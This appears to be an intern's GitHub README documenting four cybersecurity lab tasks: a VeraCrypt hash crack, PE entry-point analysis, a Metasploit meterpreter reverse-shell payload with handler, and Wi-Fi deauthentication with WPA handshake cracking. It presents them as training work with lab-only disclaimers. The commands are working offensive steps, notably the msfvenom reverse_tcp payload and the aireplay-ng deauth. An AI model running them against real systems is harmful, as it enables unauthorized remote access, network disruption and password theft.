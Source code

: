 # ⚙️ Intermediate Level Cyber Security Internship Tasks – ShadowFox

This repository contains my **Intermediate Level Cyber Security Internship Tasks** completed as part of the **ShadowFox Cyber Security Internship**.

---

## 📘 Task Overview

| Task | Description | Tools Used |
|------|--------------|------------|
| **Task 1** | Decode and recover VeraCrypt password | Hashcat / John / VeraCrypt |
| **Task 2** | Find PE Entry Point in an executable | PE Explorer / Python pefile |
| **Task 3** | Create reverse shell payload using Metasploit | msfvenom / msfconsole |
| **Task 4** | Perform Wi-Fi deauth & handshake capture (own network) | Aircrack-ng / Hashcat |

---

## Overview
This repository documents four intermediate-level lab tasks completed as part of the ShadowFox Cyber Security Internship. Each task has a short description, the essential commands used, and a list of evidence files to include. All activities were performed in isolated lab environments or on systems I own.

---

## Repository structure (recommended)

<img width="568" height="256" alt="Screenshot 2025-10-30 101948" src="https://github.com/user-attachments/assets/2dc5ea28-598d-4d43-8b8e-d7dc7cf6d041" />


---

## Important: legal & safety
**Only** run these techniques on VMs, lab equipment, or networks you own and have permission to test. Do not use these techniques against third-party systems. Do not upload binaries (payloads, .exe, .cap, .hc) to public repositories.

---

## Task 1 — VeraCrypt Password Recovery
**Goal:** recover password (from an encoded/hash input) and mount the VeraCrypt container to extract a secret.

**Key commands (examples)**
```bash
# clean hex dump -> single hash line
awk '{printf "%s", $NF} END{print ""}' hashes.txt > hashes_clean.txt

# crack with john
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes_clean.txt

# mount veracrypt (use recovered password)
sudo veracrypt --text --mount ./practice_container.hc /mnt/veracrypt1 --password='RECOVERED_PASSWORD'
ls -la /mnt/veracrypt1
sudo cat /mnt/veracrypt1/secret.txt
```
**Evidence to include:**

veracrypt_mount_output.txt, ls_mounted.txt, secret_extracted.txt, screenshots.

##Task 2 — PE Entry Point Analysis

Goal: find AddressOfEntryPoint (RVA), ImageBase, and compute Virtual Entry Address.

**Key commands (examples):**
```bash
# install pefile (apt) and run helper script
sudo apt install -y python3-pefile
python3 pe_entry.py sample.exe > pe_entry_output.txt
```

**What pe_entry.py should print**
AddressOfEntryPoint (RVA): 0x....
ImageBase: 0x....
Virtual Entry Address: 0x....   # ImageBase + AEP
**Evidence to include:**

pe_entry.py, pe_entry_output.txt, screenshot from CFF Explorer (optional).

##Task 3 — Metasploit Reverse Shell

Goal: generate meterpreter payload, run handler, and capture reverse shell in lab VM.

**Key commands (examples)**
```bash
# create workspace and payload (DO NOT upload payload.exe)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f exe -o payload.exe

# handler resource (handler.rc)
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
set ExitOnSession false
exploit -j -z

# run handler
msfconsole -r handler.rc
```
**Evidence to include**

handler.rc, payload_command.txt (command used), msf_session_log.txt, session_screenshot.png.

##Task 4 — Wi-Fi Deauth → Handshake → Crack (own AP only)

Goal: capture WPA/WPA2 4-way handshake from an AP you own and attempt a wordlist crack.

**Key commands (examples)**
```bash
# enable monitor mode (replace wlan0)
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# focused capture
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF -c 6 -w capture wlan0mon

# deauth a client to force handshake (only on your AP)
sudo aireplay-ng --deauth 20 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon

# convert and crack (recommended)
hcxpcapngtool -o capture.22000 capture-01.cap
hashcat -m 22000 capture.22000 /usr/share/wordlists/rockyou.txt
```
**Evidence to include**

airodump_handshake.png, aireplay_deauth_output.txt, hashcat_log.txt (do not publish raw .cap unless it is your own AP).

###How to push to GitHub (quick)

```bash
git init
git add .
git commit -m "Add intermediate tasks README and structure"
git remote add origin https://github.com/<username>/cybersecurity-intermediate-tasks.git
git branch -M main
git push -u origin main
```


## ⚖️ Legal & Ethical Disclaimer
> All tasks were executed in a **controlled virtual lab** or **personal network** with permission.  
> This content is shared for learning and educational demonstration only.

---

## 👨‍💻 Author
**Nandyala Jashwanth Reddy**  
Cyber Security Intern – ShadowFox  
📍 SR University  
🔗 [LinkedIn Profile](https://www.linkedin.com/in/nandyala-jashwanth-reddy-49b4552bb/?lipi=urn%3Ali%3Apage%3Ad_flagship3_profile_view_base_contact_details%3BrdYprjFETQiIZv6riTvP1A%3D%3D)
